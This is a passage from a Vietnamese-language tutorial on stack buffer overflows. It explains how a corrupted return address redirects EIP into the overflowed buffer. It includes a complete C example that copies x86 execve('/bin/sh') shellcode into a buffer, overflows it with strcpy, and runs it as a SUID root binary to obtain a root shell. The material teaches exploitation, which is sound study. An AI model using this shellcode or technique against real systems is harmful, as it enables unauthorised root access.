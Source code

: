 <div style="text-align: justify; text-indent: 2em;">
Do đó, khi hàm trả về, địa chỉ bị hỏng sẽ được sao chép qua EIP và sẽ trỏ đến bộ đệm đích mà chúng ta làm tràn; sau đó, ngay khi hàm kết thúc, các lệnh trong bộ đệm sẽ được tìm nạp và thực thi.
</div>

### Ví dụ cơ bản

<div style="text-align: justify; text-indent: 2em;">
Đây là cách dễ nhất để hiển thị lỗi tràn bộ đệm đang hoạt động.
</div>

<div style="text-align: justify; text-indent: 2em;">
Biến shellcode được sao chép vào bộ đệm mà chúng ta muốn tràn, và thực chất là một tập hợp các mã lệnh x86. Để nhấn mạnh sự nguy hiểm của một chương trình như vậy (ví dụ: để chứng minh rằng tràn bộ đệm không phải là mục đích, mà là một cách để đạt được mục tiêu), chúng ta sẽ cấp cho chương trình này một bit SUID và quyền root.
</div>

```c
#include <stdio.h>
#include <string.h>

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

int main(int argc, char **argv)
{
	char buffer[96];
	int i;
	long *long_ptr = (long *) large_string;

	for (i = 0; i < 32; i++)
		*(long_ptr + i) = (int) buffer;

	for (i = 0; i < (int) strlen(shellcode); i++)
		large_string[i] = shellcode[i];

	strcpy(buffer, large_string);

	return 0;
}

```

<div style="text-align: justify; text-indent: 2em;">
Hai mối nguy hiểm được nhấn mạnh ở đây: câu hỏi tràn ngăn xếp, đã được phát triển cho đến nay, và các tệp nhị phân SUID, được thực thi với quyền root! Sự kết hợp của các yếu tố này cung cấp cho chúng ta một shell root ở đây.
</div>
